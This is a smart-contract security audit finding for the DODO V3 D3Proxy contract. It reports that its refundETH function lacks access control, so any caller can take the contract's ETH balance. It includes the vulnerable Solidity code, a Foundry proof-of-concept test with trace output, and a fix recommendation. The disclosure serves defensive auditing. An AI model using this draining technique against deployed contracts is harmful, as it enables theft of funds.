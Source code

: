IamZKdevETH

high

# Critical Vulnerability: Unrestricted ETH Withdrawal in D3Proxy Contract

## Summary
The [refundETH](https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L189) function in the D3Proxy contract allows anyone to withdraw ETH from the contract if there is a positive balance available. This can lead to unintended access to contract funds by unauthorized users.

## Vulnerability Detail
The refundETH function does not include any access control or permission checks. As a result, anyone can call this function and receive the ETH balance of the contract. This lack of restriction allows potential attackers to drain the contract's ETH balance.

## Impact
The vulnerability allows unauthorized users to withdraw ETH from the contract, potentially resulting in financial loss or depletion of the contract's funds. It violates the intended access control mechanisms and poses a security risk.

## Code Snippet
```solidity
/// @dev when fromToken = ETH and call buyTokens, call this function to refund user's eth
function refundETH() external payable {
    if (address(this).balance > 0) {
        _safeTransferETH(msg.sender, address(this).balance);
    }
}
```
## Tool used
Foundry test

** Test Code**
```solidity
function testRefundETH() public {
        vm.deal(address(d3Proxy), 2 ether);

        //anyone can ask for refund
        address alice = address(777);
        assertEq(alice.balance, 0);
        vm.prank(alice);
        d3Proxy.refundETH();
        emit log_named_uint("alice balance", alice.balance);
        assertEq(alice.balance, 2000000000000000000);
    }
```

** Test Result**
```bash
Running 1 test for test/DODOV3MM/periphery/D3Proxy.t.sol:D3ProxyTest
[PASS] testRefundETH() (gas: 40743)
Logs:
  alice balance: 2000000000000000000

Traces:
  [40743] D3ProxyTest::testRefundETH() 
    ├─ [0] VM::deal(0xe8dc788818033232EF9772CB2e6622F1Ec8bc840, 2000000000000000000) 
    │   └─ ← ()
    ├─ [0] VM::prank(0x0000000000000000000000000000000000000309) 
    │   └─ ← ()
    ├─ [32332] 0xe8dc788818033232EF9772CB2e6622F1Ec8bc840::refundETH() 
    │   ├─ [0] 0x0000000000000000000000000000000000000309::fallback{value: 2000000000000000000}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_named_uint(key: alice balance, val: 2000000000000000000)
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 8.23ms
```


## Recommendation
It is important to implement proper access control mechanisms and permission checks to ensure that only authorized users can withdraw ETH from the contract. Consider adding modifiers or require statements to restrict the access to functions that handle contract balances. Additionally, conduct a comprehensive review of the contract's functionality and logic to identify and address any other potential vulnerabilities.
